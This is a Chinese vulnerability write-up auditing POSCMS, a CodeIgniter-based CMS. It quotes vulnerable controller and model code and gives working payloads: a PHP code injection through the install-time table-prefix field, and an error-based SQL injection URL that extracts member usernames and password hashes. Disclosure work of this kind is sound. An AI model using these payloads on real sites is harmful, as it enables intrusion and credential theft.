





## 0x00 前言

此套cms采用了CI框架，之前在做漏洞平台的时候也是用的这个框架开发。

CodeIgniter 是一个小巧但功能强大的 PHP 框架，作为一个简单而“优雅”的工具包，它可以为开发者们建立功能完善的 Web 应用程序。

文章写的比较急，以后再补充……


## 0x01 第一弹 安装程序Getshell

首先我们一般都是在安装的时候，看看有没有重装的可能性，粗略的看了一下代码并没有，但是存在一个有趣的安装getshell问题。

CI框架的数据库配置在：`config\database.php`,其常见内容如下：

```php
<?php

if (!defined('BASEPATH')) exit('No direct script access allowed');

$active_group = 'default';
$query_builder  = TRUE;

$db['default']  = array(
  'dsn'   => '',
  'hostname'  => 'localhost',
  'username'  => 'root',
  'password'  => 'root',
  'port'    => '3306',
  'database'  => 'xxxxx',
  'dbdriver'  => 'mysqli',
  'dbprefix'  => 'dr_',
  'pconnect'  => FALSE,
  'db_debug'  => true,
  'cache_on'  => FALSE,
  'cachedir'  => 'cache/sql/',
  'char_set'  => 'utf8',
  'dbcollat'  => 'utf8_general_ci',
  'swap_pre'  => '',
  'autoinit'  => FALSE,
  'encrypt' => FALSE,
  'compress'  => FALSE,
  'stricton'  => FALSE,
  'failover'  => array(),
);
```

安装界面：


然后找到这个界面对应的代码 `diy\dayrui\controllers\Install.php`：

```php
<?php
/**
     * 安装程序
     */
    public function index() {

        $step = max(1, (int)$this->input->get('step'));
        switch ($step) {

            case 1:
                break;

            case 2:

                $check_pass = true;

                $writeAble = $this->_checkFileRight();
                $lowestEnvironment = $this->_getLowestEnvironment();
                $currentEnvironment = $this->_getCurrentEnvironment();
                $recommendEnvironment = $this->_getRecommendEnvironment();

                foreach ($currentEnvironment as $key => $value) {
                    if (false !== strpos($key, '_ischeck') && false === $value) {
                        $check_pass = false;
                    }
                }
                foreach ($writeAble as $value) {
                    if (false === $value) {
                        $check_pass = false;
                    }
                }

                $this->template->assign(array(
                    'writeAble' => $writeAble,
                    'check_pass' => $check_pass,
                    'lowestEnvironment' => $lowestEnvironment,
                    'currentEnvironment' => $currentEnvironment,
                    'recommendEnvironment' => $recommendEnvironment,
                ));
                break;
            case 3:

                if ($_POST) {
                    $data = $this->input->post('data');
                    // 数据库支持判断
                    $mysqli = function_exists('mysqli_init') ? mysqli_init() : 0;
                    if (version_compare(PHP_VERSION, '5.5.0') >= 0 && !$mysqli) {
                        exit(dr_json(0, '您的PHP环境必须启用Mysqli扩展'));
                    }
                    // 参数判断
                    if (!preg_match('/^[\x7f-\xff\dA-Za-z\.\_]+$/', $data['admin'])) {
                        exit(dr_json(0, '管理员账号格式不正确'));
                    }
                    if (!$data['password']) {
                        exit(dr_json(0, '管理员密码不能为空'));
                    }
                    if (!$data['dbname']) {
                        exit(dr_json(0, '数据库名称不能为空'));
                    }
                    if (is_numeric($data['dbname'])) {
                        exit(dr_json(0, '数据库名称不能是数字'));
                    }
                    if (strpos($data['dbname'], '.') !== false) {
                        exit(dr_json(0, '数据库名称不能存在.号'));
                    }
                    $this->load->helper('email');
                    if (!$data['email'] || !valid_email($data['email'])) {
                        exit(dr_json(0, 'Email格式不正确'));
                    }
                    if ($mysqli) {
                        if (!@mysqli_real_connect($mysqli, $data['dbhost'], $data['dbuser'], $data['dbpw'])) {
                            exit(dr_json(0, '[mysqli_real_connect] 无法连接到数据库服务器（'.$data['dbhost'].'），请检查用户名（'.$data['dbuser'].'）和密码（'.$data['dbpw'].'）是否正确'));
                        }
                        if (!@mysqli_select_db($mysqli, $data['dbname'])) {
                            if (!@mysqli_query($mysqli, 'CREATE DATABASE '.$data['dbname'])) {
                                exit(dr_json(0, '指定的数据库（'.$data['dbname'].'）不存在，系统尝试创建失败，请通过其他方式建立数据库'));
                            }
                        }
                        // utf8方式打开数据库
                        mysqli_query($mysqli, 'SET NAMES utf8');
                    } else {
                        if (!@mysql_connect($data['dbhost'], $data['dbuser'], $data['dbpw'])) {
                            exit(dr_json(0, mysql_error().'<br>无法连接到数据库服务器（'.$data['dbhost'].'），请检查用户名（'.$data['dbuser'].'）和密码（'.$data['dbpw'].'）是否正确'));
                        }
                        if (!@mysql_select_db($data['dbname'])) {
                            if (!@mysql_query('CREATE DATABASE '.$data['dbname'])) {
                                exit(dr_json(0, mysql_error().'<br>指定的数据库（'.$data['dbname'].'）不存在，系统尝试创建失败，请通过其他方式建立数据库'));
                            }
                        }
                        // utf8方式打开数据库
                        mysql_query('SET NAMES utf8');
                    }
                    // 格式化端口
                    list($data['dbhost'], $data['dbport']) = explode(':', $data['dbhost']);
                    $data['dbport'] = $data['dbport'] ? (int)$data['dbport'] : 3306;
                    $data['dbprefix'] = $data['dbprefix'] ? $data['dbprefix'] : 'dr_'; // 这个变量可控
                    // 配置文件
                    $config = "<?php".PHP_EOL.PHP_EOL;
                    $config.= "if (!defined('BASEPATH')) exit('No direct script access allowed');".PHP_EOL.PHP_EOL;
                    $config.= "\$active_group = 'default';".PHP_EOL;
                    $config.= "\$query_builder  = TRUE;".PHP_EOL.PHP_EOL;
                    $config.= "\$db['default']  = array(".PHP_EOL;
                    $config.= " 'dsn'   => '',".PHP_EOL;
                    $config.= " 'hostname'  => '{$data['dbhost']}',".PHP_EOL;
                    $config.= " 'username'  => '{$data['dbuser']}',".PHP_EOL;
                    $config.= " 'password'  => '{$data['dbpw']}',".PHP_EOL;
                    $config.= " 'port'    => '{$data['dbport']}',".PHP_EOL;
                    $config.= " 'database'  => '{$data['dbname']}',".PHP_EOL;
                    $config.= " 'dbdriver'  => '".($mysqli ? 'mysqli' : 'mysql')."',".PHP_EOL;
                    $config.= " 'dbprefix'  => '{$data['dbprefix']}',".PHP_EOL;
                    $config.= " 'pconnect'  => FALSE,".PHP_EOL;
                    $config.= " 'db_debug'  => true,".PHP_EOL;
                    $config.= " 'cache_on'  => FALSE,".PHP_EOL;
                    $config.= " 'cachedir'  => 'cache/sql/',".PHP_EOL;
                    $config.= " 'char_set'  => 'utf8',".PHP_EOL;
                    $config.= " 'dbcollat'  => 'utf8_general_ci',".PHP_EOL;
                    $config.= " 'swap_pre'  => '',".PHP_EOL;
                    $config.= " 'autoinit'  => FALSE,".PHP_EOL;
                    $config.= " 'encrypt' => FALSE,".PHP_EOL;
                    $config.= " 'compress'  => FALSE,".PHP_EOL;
                    $config.= " 'stricton'  => FALSE,".PHP_EOL;
                    $config.= " 'failover'  => array(),".PHP_EOL;
                    $config.= ");".PHP_EOL;
                    // 保存配置文件
                    if (!file_put_contents(WEBPATH.'config/database.php', $config)) {
                        exit(dr_json(0, '数据库配置文件保存失败，请检查文件config/database.php权限！'));
                    }
                    // 加载数据库
                    $this->load->database();
                    $salt = substr(md5(rand(0, 999)), 0, 10);
                    $password = md5(md5($data['password']).$salt.md5($data['password']));

                    // 导入表结构
                    $this->_query(str_replace(
                        array('{dbprefix}', '{username}', '{password}', '{salt}', '{email}'),
                        array($this->db->dbprefix, $data['admin'], $password, $salt, $data['email']),
                        file_get_contents(WEBPATH.'cache/install/install.sql')
                    ));

                    // 导入会员菜单数据
                    $this->_query(str_replace(
                        '{dbprefix}',
                        $this->db->dbprefix,
                        file_get_contents(WEBPATH.'cache/install/member_menu.sql')
                    ));

                    // 系统配置文件
                    $this->load->model('system_model');
                    $config = array(
                        'SYS_LOG' => 'FALSE',
                        'SYS_KEY' => 'poscms'.md5(time()),
                        'SYS_DEBUG' => 'FALSE',
                        'SYS_HELP_URL' => '',
                        'SYS_EMAIL' => $data['email'],
                        'SYS_MEMCACHE' => 'FALSE',
                        'SYS_UPLOAD_DIR' => SYS_UPLOAD_DIR,
                        'SYS_CRON_QUEUE' => 0,
                        'SYS_CRON_NUMS' => 20,
                        'SYS_CRON_TIME' => 300,


                        'SYS_ONLINE_NUM' => 1000,
                        'SYS_ONLINE_TIME' => 7200,

                        'SYS_NAME' => 'POSCMS',
                        'SYS_NEWS' => 'TRUE',
                        'SYS_CMS' => 'POSCMS',
                        'SYS_UPDATE' => 1,

                        'SITE_EXPERIENCE' => '经验值',
                        'SITE_SCORE' => '虚拟币',
                        'SITE_MONEY' => '金钱',
                        'SITE_CONVERT' => 10,
                        'SITE_ADMIN_CODE' => 'FALSE',
                        'SITE_ADMIN_PAGESIZE' => 8,

                        'SYS_CACHE_INDEX' => 300,
                        'SYS_CACHE_MINDEX' => 300,
                        'SYS_CACHE_MSHOW' => 300,
                        'SYS_CACHE_MSEARCH' => 300,
                        'SYS_CACHE_SITEMAP' => 300,
                        'SYS_CACHE_LIST' => 300,
                        'SYS_CACHE_MEMBER' => 300,
                        'SYS_CACHE_ATTACH' => 300,
                        'SYS_CACHE_FORM' => 300,
                        'SYS_CACHE_POSTER' => 300,
                        'SYS_CACHE_SPACE' => 300,
                        'SYS_CACHE_TAG' => 300,

                    );
                    $this->system_model->save_config($config, $config);
                    // 站点配置文件
                    $this->load->model('site_model');
                    $this->load->library('dconfig');
                    if (is_file(WEBPATH.'config/site/1.php')) {
                        $config = require WEBPATH.'config/site/1.php';
                    }
                    $config['SITE_THEME'] = $config['SITE_TEMPLATE'] = 'default';
                    $config['SITE_DOMAIN'] = $config['SITE_ATTACH_HOST'] = $config['SITE_ATTACH_URL'] = strtolower($_SERVER['HTTP_HOST']);
                    $site = array(
                        'name' => 'POSCMS',
                        'domain' => strtolower($_SERVER['HTTP_HOST']),
                        'setting' => $config,
                    );
                    $this->site_model->add_site($site);
                    $this->dconfig->file(WEBPATH.'config/site/1.php')->note('站点配置文件')->space(32)->to_require_one($this->site_model->config, $config);

                    // 初始化菜单
                    $this->load->model('menu_model');
                    $this->menu_model->init();

                    // 导入默认数据
                    $this->_query(str_replace(
                        array('{dbprefix}', '{site_url}'),
                        array($this->db->dbprefix, 'http://'.strtolower($_SERVER['HTTP_HOST'])),
                        file_get_contents(WEBPATH.'cache/install/default.sql')
                    ));
                    exit(dr_json(1, dr_url('install/index', array('step' => $step + 1))));
                }
                break;

            case 4:
                $log = array();
                $sql = file_get_contents(WEBPATH.'cache/install/install.sql');
                preg_match_all('/`\{dbprefix\}(.+)`/U', $sql, $match);
                if ($match) {
                    $log = array_unique($match[1]);
                }
                $this->template->assign(array(
                    'log' => implode('<finecms>', $log),
                ));
                break;

            case 5:
                file_put_contents(WEBPATH.'cache/install.lock', time());
                file_put_contents(WEBPATH.'cache/install.new', time());
                break;
        }

        $this->template->assign(array(
            'step' => $step,
        ));
        $this->template->display('install_'.$step.'.html', 'admin');
    }

```

然后定位到`$data['dbprefix']`是可控的，也就是数据库的表前缀，前面的数据库配置文件内容以及交代清楚，接下来构造一个POC：
`','x'=>file_put_contents('s.txt','ss'),'b'=>'b`



这个POC是在数组中的，会在网站根目录新建一个`s.txt`内容为`ss`，在PHP的数组里，你可以放eval等字符，但是这个`database.php`是不能直接访问的，因为`if (!defined('BASEPATH')) exit('No direct script access allowed');`这一句是判断是否是框架初始化后加载此文件，否则就不再继续向下运行，好像这种思路都是框架常用的办法。

## 0x02 后台SQL注入

第二处是在后台的某处搜索上，这个Input是一个日期输入框，但是不是原生的Input。


我们抓包看看请求：




控制器文件位于：`diy\module\member\controllers\admin\Home.php`




```php
<?php
/**
     * 经验值
     */
    public function experience() {

        $this->_experience();

        $uid = (int)$this->input->get('uid');
        print_r($this->input);
        // 根据参数筛选结果
        $param = array('uid' => $uid, 'type' => 0);
        $this->input->get('search') && $param['search'] = 1;

        // 数据库中分页查询
        list($data, $param) = $this->score_model->limit_page($param, max((int)$this->input->get('page'), 1), (int)$this->input->get('total'));
        $param['uid'] = $uid;

        $_param = $this->input->get('search') ? $this->cache->file->get($this->score_model->cache_file) : $this->input->post('data');
        $_param = $_param ? $param + $_param : $param;

        $this->template->assign(array(
            'list' => $data,
            'name' => SITE_EXPERIENCE,
            'param' => $_param,
            'pages' => $this->get_pagination(dr_url('member/home/experience', $param), $param['total'])
        ));
        $this->template->display('score_index.html');
    }
```

Model文件：`diy\module\member\models\Score_model.php`

```php
<?php
/*
   * 条件查询
   *
   * @param object  $select 查询对象
   * @param array $param  条件参数
   * @return  array 
   */
  private function _where(&$select, $param) {
  
    $_param = array();
    $this->cache_file = md5($this->duri->uri(1).$this->uid.SITE_ID.$this->input->ip_address().$this->input->user_agent()); // 缓存文件名称
    
    // 存在POST提交时，重新生成缓存文件
    if (IS_POST) {
      $data = $this->input->post('data'); //这里就没有过滤
      $this->cache->file->save($this->cache_file, $data, 3600);
      $param['search'] = 1;
    }
    
    // 存在search参数时，读取缓存文件
    if ($param['search'] == 1) {
      $data = $this->cache->file->get($this->cache_file);
      $_param['search'] = 1;
      isset($data['start']) && $data['start'] && $data['start'] != $data['end'] && $select->where('inputtime BETWEEN '.$data['start'].' AND '. $data['end']);
    }
    
    $select->where('type', $param['type']);
    $select->where('uid', $param['uid']);
    $_param['uid'] = $data['uid'];
    
    return $_param;
  }
```

故此出现了一个注入点：


## 0x03 前台SQL注入

文件位置：`diy\module\member\controllers\Account.php`，约：757行左右，出现一处变量未过滤的情况。

```php
<?php
/**
     * 附件管理
     */
    public function attachment() {

        $ext = dr_safe_replace($this->input->get('ext'));
        $table = $this->input->get('module'); // 这个变量没有过滤
        $this->load->model('attachment_model');

        $page = max((int)$this->input->get('page'), 1);
        
        // 检测可管理的模块
        $module = array();
        $modules = $this->get_cache('module', SITE_ID);
        if ($modules) {
            foreach ($modules as $dir) {
                $mod = $this->get_cache('module-'.SITE_ID.'-'.$dir);
                $this->_module_post_catid($mod, $this->markrule) && $module[$dir] = $mod['name'];
            }
        }
        
        // 查询结果
        list($total, $data) = $this->attachment_model->limit($this->uid, $page, $this->pagesize, $ext, $table);
        
        $acount = $this->get_cache('member', 'setting', 'permission', $this->markrule, 'attachsize');
        $acount = $acount ? $acount : 1024000;
        $ucount = $this->db->select('sum(`filesize`) as total')->where('uid', (int)$this->uid)->limit(1)->get('attachment')->row_array();
        $ucount = (int)$ucount['total'];
        $acount = $acount * 1024 * 1024;
        $scount = max($acount - $ucount, 0);
        
        $this->template->assign(array(
            'ext' => $ext,
            'list' => $data,
            'table' => $table,
            'module' => $module,
            'acount' => $acount,
            'ucount' => $ucount,
            'scount' => $scount,
            'pages' => $this->get_member_pagination(dr_member_url($this->router->class.'/'.$this->router->method, array('ext' => $ext)), $total),
            'page_total' => $total,
        ));
        $this->template->display('account_attachment_list.html');
    }
```

`dr_safe_replace`函数：

```php
<?php
/**
 * 安全过滤函数
 *
 * @param $string
 * @return string
 */
function dr_safe_replace($string) {
    $string = str_replace('%20', '', $string);
    $string = str_replace('%27', '', $string);
    $string = str_replace('%2527', '', $string);
    $string = str_replace('*', '', $string);
    $string = str_replace('"', '&quot;', $string);
    $string = str_replace("'", '', $string);
    $string = str_replace('"', '', $string);
    $string = str_replace(';', '', $string);
    $string = str_replace('<', '&lt;', $string);
    $string = str_replace('>', '&gt;', $string);
    $string = str_replace("{", '', $string);
    $string = str_replace('}', '', $string);
    return $string;
}
```

可见调用这个方法还是有用的，但是在官方代码中，`module`并没有过滤。

于是根据数据库结构构造EXP……




`index.php?s=member&c=account&m=attachment&module=&ext=pa&module=d%" and(select 1 from(select count(*),concat((select (select (SELECT distinct concat('[',username,0x3a,password,'] by Coralab') FROM dr_member limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) -- x`

是不是看的很舒服？ 哈哈，这个基于框架的CMS漏洞还是很多的，抽空继续看，下班了、


## 0x04 总结

框架中有很多过滤方法，但是开发人员并没有调用它们，虽说Module和Controller分开写没错，但是这个CMS目录结构很散，要不是我之前开发过漏洞平台，也许是看不懂它的加载的……没错，我现在也看不懂。挖掘SQL注入我主要是寻找数据库驱动，然后在query函数体内打印SQL语句，是不是很生猛？

后面有时间了继续总结~  周五了，可以嗨了！